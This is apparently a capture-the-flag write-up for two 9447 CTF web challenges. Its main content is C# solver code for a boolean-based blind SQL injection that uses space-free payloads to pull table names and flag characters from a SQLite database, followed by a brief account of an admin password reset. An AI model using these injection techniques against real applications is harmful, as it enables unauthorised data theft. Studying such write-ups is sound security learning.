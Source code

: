# premonition

The vulnerability was an SQL injection in the operator string.

Error text leaked, from which I saw spaces were removed (also I had to send a valid user-agent).

I solved the problem with a boolean-based technique (it could be solved much easier though). First I get the table names and found the `s3ekr17_passwords` table.

Then requested the contents of it. It was an (userid, password) tuple, where the password was only one character from the flag and the userid was the position of the character in the string.

A part of my solver code:

{% highlight csharp %}
var http = new HttpClient { BeforeRequest = req => req.UserAgent = "Mozilla/5.0" };

Func<string, bool> sqli = query =>
{
    var resp = http.Req("http://premonition-p8l05mpz.9447.plumbing:9447/score", "score=0&ineq=<(?)or(" + query + ")--").AsString;
    if (resp == "[]\n")
        return false;
    else if (resp.StartsWith("[[\"Xavier\", "))
        return true;
    else
        throw new Exception("SQL error: " + resp);
};

//var tableNames = BinarySearchUtils.BinarySearchText((idx, num) => sqli("SELECT(unicode(substr(name," + (idx + 1) + ",1))<" + num + ")FROM(sqlite_master)LIMIT(1)"));
//var rowCount = BinarySearchUtils.BinarySearchNum(i => sqli("SELECT(count(*)<" + i + ")FROM(s3ekr17_passwords)"), 0, 50);

for (int userId = 0; userId < 45; userId++)
{
    var leak = BinarySearchUtils.BinarySearchText((idx, num) => sqli("SELECT(unicode(substr(userid||'|'||password," + (idx + 1) + ",1))<" + num + ")FROM(s3ekr17_passwords)LIMIT(" + userId + "),(1)"));
    Console.WriteLine("User #" + userId + ": " + leak);
    File.AppendAllText("leak.txt", leak + "\r\n");
}
{% endhighlight %}

# nicklesndimes

The website used the same framework as the CTF, where I could reset the admin's password, and whitelist my IP address with the code found in the main javascript file of the site (although I had to log in with an other user to make this work).


